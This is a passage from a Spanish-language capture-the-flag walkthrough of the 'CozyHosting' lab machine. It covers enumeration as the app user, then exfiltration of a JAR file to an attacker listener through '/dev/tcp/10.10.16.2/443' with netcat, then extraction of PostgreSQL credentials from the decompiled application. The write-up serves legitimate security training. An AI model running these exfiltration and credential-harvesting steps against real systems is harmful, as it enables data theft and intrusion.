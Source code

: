 ```bash
app@cozyhosting:/app$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash

app@cozyhosting:/app$ id
uid=1001(app) gid=1001(app) groups=1001(app)

app@cozyhosting:/app$ ls
cloudhosting-0.0.1.jar
```

Nos pondremos en escucha desde nuestra máquina atacante para recibir este archivo. Desde la máquina víctima, enviaremos el contenido a través del `/dev/tcp`.

```bash
❯ nc -nlvp 443 > cloudhosting-0.0.1.jar
listening on [any] 443 ...
```

```bash
app@cozyhosting:/app$ cat cloudhosting-0.0.1.jar > /dev/tcp/10.10.16.2/443
```

Abriremos este nuevo archivo `JAR` a través de la herramienta de `JADX-GUI` en busca de información sensible en el código fuente.

Recordando que la página web utilizaba el framework de `Spring Boot`, intentamos buscar por Internet información sobre ficheros `JAR` de `Spring Boot` y nos encontramos sobre `application.properties` que debería contener información interesante.

{% embed url="https://stackoverflow.com/questions/38775194/where-is-the-application-properties-file-in-a-spring-boot-project" %}

Al analizar el binario, logramos visualizar credenciales de acceso a PostgreSQL.

<figure><img src="../../.gitbook/assets/imagen (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Database Enumeration

Revisamos en la máquina víctima los puertos abiertos, y verificamos que el puerto de `PostgreSQL` se encontraba abierto internamente.
